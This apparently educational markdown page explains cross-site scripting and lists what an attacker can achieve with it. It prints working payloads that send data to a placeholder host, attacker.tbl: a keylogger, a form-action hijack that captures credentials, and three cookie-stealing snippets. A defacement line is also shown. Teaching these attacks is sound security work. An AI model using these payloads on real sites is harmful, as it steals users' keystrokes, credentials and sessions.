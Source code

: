 # What is Cross-Site Scripting (XSS)?

* `Cross-site scripting (XSS)` is an attack in which its ultimate purpose is to inject HTML (also known as HTML injection) or run code like JavaScript in a user's web browser.
* XSS vulnerabilities happen when a web application uses unfiltered user input to build the output content displayed to its users; this lets an attacker control the output HTML and JavaScript code.

## What could be achieved with XSS

* Inject malicious content.
* Perform virtual defacement of the website:

  ```javascript
  document.body.innerHTML="<h1>Defaced</h1>";
  ```

* Read any data that the user is able to access.
* Perform keylogging:

  ```javascript
  var keys = "";

  document.onkeypress = e => {
    var get = window.event ? event : e;
    var key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    keys += key;
  }

  window.setInterval(() => {
    if (keys !== "") {
      var path = encodeURI("http://attacker.tbl/log.php?k=" + keys);
      new Image().src = path;
      keys = "";
    }
  }, 1000); // Sends the key strokes every second
  ```

* Capture the user's credentials if they are stored in the browser and fields such as `password` and `username` are filled in automatically or through the login form itself:

  ```javascript
  document.forms[0].action="http://attacker.tbl/log.php";
  ```

* Perfom actions on the web application as if it was a legitimate user, like buying a product or changing a password.
* Get complete control over a browser or install malware through the exploitation of web browser vulnerabilities.
* Initiating an exploitation phase against browser plugins first and then the machine.
* Cookie stealing, thus the session of a user:

  ```javascript
  <script>
    var i = new Image();
    i.src="http://attacker.tbl/log.php?q="+escape(document.cookie);
  </script>
  ```

  ```html
  <div id="x" onmouseover="new Image().src='http://attacker.tbl/log.php?q='+escape(document.cookie)"/>
  ```

  ```html
  <a href="victim.tbl/#title" onclick="new Image().src='http://attacker.tbl/log.php?q='+escape(document.cookie)"/>
  ```

* Network reconnaissance of victim's machines networks (e.g. ip detection, network scanning, port scanning) through tools such as [JS-Recon][1] that make use of HTML5 features like Cross-Origin Resource Sharing (CORS) and WebSockets.

[1]: http://web.archive.org/web/20120308180633/http:/www.andlabs.org/tools/jsrecon/jsrecon.html
